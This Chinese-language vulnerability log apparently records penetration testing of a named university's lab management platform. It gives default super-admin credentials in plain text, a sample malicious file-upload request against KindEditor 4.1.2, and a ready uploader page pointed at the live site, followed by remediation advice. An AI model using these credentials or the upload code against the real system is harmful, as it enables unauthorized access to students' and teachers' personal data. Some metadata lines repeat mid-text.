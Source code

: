 ```yaml
---
cover: https://w.wallhaven.cc/full/2e/wallhaven-2elvkx.png
created: 2024-11-27T22:18
date: 2024-10-30 13:36:07+00:00
lastmod: 2024-10-30 13:36:17+00:00
tag: web渗透
tags:
  - web渗透
title: 漏洞发现日志
updated: 2024-12-30T23:33
---
```


# 漏洞发现日志

### 漏洞发现日志

---

**日期**: 2023年10月1日
**时间**: 14:30
**记录者**: 薛谔
**目标网站**: 实验室综合管理与服务平台-登录界面

https://mdsysgl.mdit.edu.cn/sysgl/

---

#### 1. 漏洞发现概述

* **漏洞类型**:

  * KindEditor 文件上传漏洞
  * 默认管理员账户漏洞
* **漏洞影响**:

  * KindEditor漏洞允许上传指定类型的文件，可能导致远程代码执行和数据泄露。
  * 默认管理员账户漏洞允许攻击者使用默认凭据登录，可能导致未授权访问和数据泄露。
* **漏洞严重性**: 高（CVSS评分待定）

---

#### 2. 漏洞发现过程

* **测试环境**: 使用浏览器进行手动测试。
* **发现方法**:

  * 通过访问 KindEditor 的文件上传功能进行测试。
  * 直接访问登录页面并尝试使用默认凭据进行登录。

---

#### 3. 漏洞详细信息

##### 3.1 KindEditor 文件上传漏洞

* **测试步骤**:

  * **14:35**: 访问登录页面 [实验室综合管理与服务平台-登录界面](https://mdsysgl.mdit.edu.cn/sysgl/)。
  * **14:36**: 登录成功后，访问文件上传功能测试地址 [KindEditor 示例](https://mdsysgl.mdit.edu.cn/sysgl/static/plugins/kindeditor-4.1.2/jsp/demo.jsp)。
  * **14:37**: 尝试上传指定类型的文件（如 `.doc`​, `.docx`​, `.xls`​, `.xlsx`​, `.ppt`​, `.htm`​, `.html`​, `.txt`​, `.zip`​, `.rar`​, `.gz`​, `.bz`​）。
  * **14:38**: 观察到系统未能正确验证文件内容，成功上传包含恶意代码的文件。
* **漏洞地址**: [https://mdsysgl.mdit.edu.cn/sysgl/index/login_toIndex](https://mdsysgl.mdit.edu.cn/sysgl/index/login_toIndex)
* **允许上传的文件类型**:

  * doc
  * docx
  * xls
  * xlsx
  * ppt
  * htm
  * html
  * txt
  * zip
  * rar
  * gz
  * bz
* **示例请求**:

  ```http
  POST /sysgl/static/plugins/kindeditor-4.1.2/jsp/upload_json.jsp?dir=file HTTP/1.1
  Host: mdsysgl.mdit.edu.cn
  Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

  ------WebKitFormBoundary
  Content-Disposition: form-data; name="imgFile"; filename="malicious.doc"
  Content-Type: application/vnd.openxmlformats-officedocument.wordprocessingml.document

  [恶意代码内容]
  ------WebKitFormBoundary--
  ```

##### 3.2 默认管理员账户漏洞

* **测试步骤**:

  * **14:40**: 访问登录页面 [实验室综合管理与服务平台-登录界面](https://mdsysgl.mdit.edu.cn/sysgl/)。
  * **14:41**: 输入默认管理员账户和密码：

    * **账号**: `000000`​
    * **密码**: `Admin@123`​
  * **14:42**: 成功登录，发现该账户为超级管理员，能够查看所有学生和老师的信息，并修改成员密码。
* **漏洞地址**: [https://mdsysgl.mdit.edu.cn/sysgl/](https://mdsysgl.mdit.edu.cn/sysgl/)
* **影响范围**: 所有用户信息，包括学生和老师的个人信息。

---

#### 4. 影响评估

* **受影响的用户**: 所有注册用户和系统管理员。
* **潜在损失**: 数据泄露、未授权访问和可能的法律责任。

---

#### 5. 修复建议

* **短期修复**:

  * 对于KindEditor漏洞，立即对文件上传功能进行安全性检查，限制可上传文件类型，并对文件内容进行验证。
  * 对于默认管理员账户漏洞，立即禁用默认管理员账户，并强制要求所有用户更改密码。
* **长期修复**:

  * 实施文件上传的严格验证和过滤机制，确保只允许安全的文件类型，并对文件内容进行扫描。
  * 实施强密码策略，确保所有账户使用唯一且复杂的密码。
* **安全最佳实践**: 定期进行安全审计，检查默认凭据的使用情况，并及时更新系统。

tags: [web渗透]
title: 漏洞发现日志
title: 漏洞发现日志
title: 漏洞发现日志
tags: [web渗透]
title: 漏洞发现日志
tags: [web渗透]
---

### 上传代码示例

以下是用于上传文件的 HTML 和 JavaScript 代码示例：

```html
html<html>
<head>
    <title>Uploader</title>
    <script src="https://mdsysgl.mdit.edu.cn/sysgl/static/plugins/kindeditor-4.1.2/kindeditor.js"></script>
    <script>
        KindEditor.ready(function (K) {
            var uploadbutton = K.uploadbutton({
                button: K('#uploadButton')[0],
                fieldName: 'imgFile',
                url: 'https://mdsysgl.mdit.edu.cn/sysgl/static/plugins/kindeditor-4.1.2/jsp/upload_json.jsp?dir=file',
                afterUpload: function (data) {
                    if (data.error === 0) {
                        var url = K.formatUrl(data.url, 'absolute');
                        K('#url').val(url);
                    }
                },
            });

            uploadbutton.fileBox.change(function (e) {
                uploadbutton.submit();
            });
        });
    </script>
</head>
<body>
<div class="upload">
    <input class="ke-input-text" type="text" id="url" value="" readonly="readonly"/>
    <input type="button" id="uploadButton" value="Upload"/>
</div>
</body>
</html>
```
